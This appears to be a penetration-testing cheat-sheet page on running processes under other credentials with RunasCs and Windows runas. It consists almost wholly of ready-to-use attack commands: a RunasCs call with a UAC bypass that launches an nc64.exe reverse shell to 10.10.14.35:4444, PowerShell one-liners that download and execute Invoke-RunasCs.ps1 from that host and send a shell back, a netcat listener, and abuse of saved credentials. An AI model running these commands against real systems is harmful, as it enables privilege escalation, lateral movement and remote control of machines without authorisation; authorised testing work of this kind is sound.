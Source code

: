 # Runas

### RunasCs

_RunasCs_ is an utility to run specific processes with different permissions than the user's current logon provides using explicit credentials.

{% code overflow="wrap" %}
```bash
# https://github.com/antonioCoco/RunasCs/

CMD> .\RunasCs.exe backup lOcjoZwqxCRpraZSmybxpdHDwtZHBIVNZoMiUMGv --bypass-uac --logon-type 8 "cmd /c C:\Temp\nc64.exe -nv 10.10.14.35 4444 -e cmd.exe"

# -l, --logon-type logon_type: logon type as NetworkCleartext (8)
# --bypass-uac: try a UAC bypass to spawn a process without token limitations (not filtered).

# https://github.com/antonioCoco/RunasCs/blob/master/Invoke-RunasCs.ps1

$ rlwrap nc -lvnp 1337
PS> IEX (new-Object Net.WebClient).DownloadString('http://10.10.14.35/privesc/Invoke-RunasCs.ps1');Invoke-RunasCs -Username snovvcrash -Password 'Passw0rd!' -Domain megacorp.local -Command powershell.exe -Remote 10.10.14.35:1337

# -Username: 
# -Password: 
# -Domain: 
# -Command: powershell.exe 

PS> IEX (new-Object Net.WebClient).DownloadString('http://10.10.14.35/privesc/Invoke-RunasCs.ps1');Invoke-RunasCs -Username backup -Password 'tjXtAmfNIJCTTtHqoSUeRuhcUvYGWXeiXCDwDuaI' -BypassUac -LogonType 8 -Command powershell.exe -Remote 10.10.14.35:4444 

# -LogonType:8
# -BypassUac 

PS> IEX (new-Object Net.WebClient).DownloadString('http://10.10.14.35/privesc/Invoke-RunasCs.ps1');Invoke-RunasCs -Username backup -Password 'hjqNspenHcyyAwNqxfJAmFcAtiKThvpotaZpglDs' -BypassUac -LogonType 8 -Command cmd.exe -Remote 10.10.14.35:4444 

# -Command: cmd.exe 
```
{% endcode %}

### Run as with Saved Credential

```
runas /savecred /user:admin cmd.exe
```

### RDP Connection Environment

```bash
# New terminal is popped up.

CMD> runas /u:otheruser cmd.exe 
CMD> runas /u:otheruser cmd.exe 
```

### Other Runas

[https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/lateral-movement/runas](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/lateral-movement/runas)
